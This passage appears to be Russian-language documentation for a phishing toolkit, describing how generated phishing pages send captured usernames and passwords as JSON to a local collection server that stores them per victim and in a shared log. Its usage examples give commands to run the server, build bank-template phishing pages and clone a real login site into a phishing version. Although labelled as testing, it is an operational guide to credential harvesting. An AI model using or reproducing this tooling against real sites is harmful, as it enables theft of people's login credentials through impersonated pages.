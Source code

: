 ### **1. Отправка данных:**
Фишинговые страницы автоматически отправляют данные на `http://localhost:8080/collect` в формате JSON:

```json
{
    "target": "https://bank.com",
    "username": "victim_user",
    "password": "victim_password",
    "timestamp": "2024-10-02T17:50:00.000Z",
    "userAgent": "Mozilla/5.0...",
    "referrer": "https://google.com"
}
```

### **2. Сохранение данных:**
Сервер сохраняет данные в:
- **Отдельные файлы:** `phishing_data/credentials_username_timestamp.json`
- **Общий лог:** `phishing_data/all_credentials.log`

### **3. Структура файлов:**

```
phishing_data/
├── credentials_test_user_20241002_175000.json
├── credentials_admin_20241002_175100.json
└── all_credentials.log
```

---

## 🔧 **Примеры использования:**

### **Пример 1: Базовое тестирование**

```bash
# 1. Запустите сервер
python3 phishing_server.py

# 2. Создайте фишинговую страницу
python3 social_engineering.py --target https://test.com --phishing-only --template bank

# 3. Откройте phishing_test.com_bank.html в браузере
# 4. Введите тестовые данные
# 5. Проверьте http://localhost:8080 для просмотра собранных данных
```

### **Пример 2: Клонирование сайта**

```bash
# 1. Запустите сервер
python3 phishing_server.py

# 2. Клонируйте сайт с фишинговой версией
python3 social_engineering.py --target https://login.example.com --clone-phishing

# 3. Откройте phishing_login.example.com/phishing.html
# 4. Данные будут автоматически собираться
```
